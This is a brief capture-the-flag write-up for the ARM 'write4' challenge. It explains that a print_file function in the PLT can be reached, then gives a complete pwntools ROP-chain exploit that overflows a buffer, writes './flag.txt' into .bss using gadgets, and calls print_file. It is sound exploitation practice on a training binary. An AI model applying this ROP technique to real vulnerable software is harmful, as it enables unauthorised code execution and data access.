

there is a print_file function linked in plt that print the file with the address of r0




with some gadgets to manipulate r0, and change the bss, a ROP chain can be built

```
#!/usr/bin/python3
from pwn import *

context.os="linux"
context.log_level="debug"

context.binary=exe=ELF("./write4_armv5-hf")

# p=process(["qemu-arm","-L", "/usr/arm-linux-gnueabihf","-g","1234","./write4_armv5-hf"])
p=process(["qemu-arm","./write4_armv5-hf"])

buffer=0x20*b"A"
pop_r0pc=0x000105f4
str_r3Ir4I_pop_r3r4pc=0x000105ec
pop_r3r4pc=0x000105f0
addr=0x21800

payload=flat(
    buffer,
    0,

    pop_r3r4pc,
    0x6C662F2E,
    addr,
    str_r3Ir4I_pop_r3r4pc,
    0x742E6761,
    addr+4,
    str_r3Ir4I_pop_r3r4pc,
    0x7478,
    addr+8,
    str_r3Ir4I_pop_r3r4pc,
    0,
    0,
    pop_r0pc,
    addr,
    exe.plt["print_file"]
)

p.recvuntil("> ")
p.send(payload)

p.interactive()
```